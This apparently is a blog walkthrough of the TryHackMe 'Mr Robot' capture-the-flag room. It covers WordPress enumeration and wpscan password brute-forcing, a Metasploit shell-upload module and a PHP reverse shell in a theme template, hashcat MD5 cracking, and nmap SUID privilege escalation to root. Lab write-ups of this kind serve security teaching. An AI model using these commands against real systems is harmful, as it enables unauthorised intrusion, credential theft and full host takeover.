 ```yaml
---
title: "Mr Robot CTF walkthrough"
date: 2020-05-21
tags: [ctf, tryhackme, mrrobot, walkthrough]
header:
  image: "/images/tryhackme/thm.png"
---
```


## Tryhackme - [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

### Recon:

`nmap -A 10.10.227.36` shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans

Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing

![terminal]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/1-terminal.png)

If we use `wakeup` command, then the port seems to be opened. 
Nothin interesting from the page source too

### File enumeration

lets run a gobuster on this.
`gobuster dir -u http://10.10.227.36/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There is a /images page but we dont have permissions to access it. THere are lot of such pages with 301 return codes. 
/readme and /license have some text but not helpful

/robots has the hint for first key. 
![robots]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/2-robots.png)

/key-1-of-3.txt page has the first key

### wpscan

We also see wp-content and wp-login pages. So, we can run wpscan to find any wordpress vulnerabilities. I ran a wpscan using `wpscan --url 10.10.227.36`
It reveals /xlmrpc.php page, which says that this page accepts only POST requests
this can be used to enumerate usernames. 
However, I didn't find any valid users with wpscan
`wpscan --url http://10.10.197.250/ --enumerate u`

fsociety.dic is also found on /robots page. Going to /fsociety.dic lets us download the file, which is a list of words
Wordpress sites has permalinks to posts and pages and also user's pages. So, now that we have a word list that resembles usernames, we can check if any of them are valid. We can use `gobuster` to do this
`gobuster --url http://10.10.197.250/author/ -w fsociety.dic`

![users]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/4-users.png)

The fsociety.dic also has some strings resembling a password. We can use wpscan again to check if any password matches
Since it was taking a long time and the .dic is huge, i sorted the file
`cat fsociety.dic | sort -u | uniq > sorted.dic`
Now start the password brute forcing again
`wpscan --url http://10.10.197.250/ --usernames 'elliot','Elliot' --passwords sorted.dic`
Now the estimated time is around 30 mins. Earlier it was 4 hrs.

This gives us a valid password: ER28-0652 for elliot

![password]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/5-password.png)

After logging in, the user's dashboard is shown. The user doesnt have any posts or comments, but is an administrator. We can also see another user in the users tab. There are alos some images in media secion

### Reverse shell

We can install a vulnerable plugin or we can install a reverse shell for wordpress. We can also use metasploit to get a reverse shell using the module `exploit/unix/webapp/wp_admin_shell_upload`

```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 10.10.197.250
set USERNAME elliot
set PASSWORD ER28-0652
run
```
But somehow, it fails saying that the target doesnt appear to be a wordpress site

We can also inject malicious code into the appearence template. [reference](https://www.hackingarticles.in/wordpress-reverse-shell/)
In the appearence seciton of admin dashboard, we change the 404 error template to a php reverse shell. I am using the reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the IP to your internal ip on tryhackme access page and the port to your netcat listener
`nc -lvnp 9001`

And now, going to the site 'http://10.10.197.250/wordpress/wp-content/themes/twentyfifteen/404.php' gives a reverse shell
The reverse shell is with user daemon. There is a second key key-2-of-3.txt and password.raw-md5 in /home/robot but can only be read by robot
So we need to escalate privileges

The password.raw-md5 file can be read by any user. And it gives a md5 hash
We can use hashcat to crack this md5
`hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`
While it is running, we can also check at [hashkiller](https://hashes.com/decrypt/basic) if it can crack it.
Both have cracked it within few seconds 'c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz'
So, the password is *abcdefghijklmnopqrstuvwxyz*

Lets login to robot user with this password. It works and now we can read the second key

### Privilege escalation

We need to escalate privileges to get a root login and find the third key.
Lets check if robot has any sudo permissions using `sudo -l`
Looks like there are none. Lets check if there are any binaries with SUID set using `find / -perm 4000 2>/dev/null`

We can find that nmap in /usr/local/bin/nmap has SUID bit.
We can [exploit](https://gtfobins.github.io/gtfobins/nmap/) this.
```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
/usr/local/bin/nmap --script=$TF
```
This was not working. I've checked the nmap version and it is 3.81, which is quite old.
It also supports interactive mode using --interactive, which can be used to escalate privileges

```
nmap --interactive
!sh
```

We can use !bash instead, but somehow I am still robot when i use bash. But when i use sh, i am root.

![shell]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/6-shell.png)

the third key is in /root folder



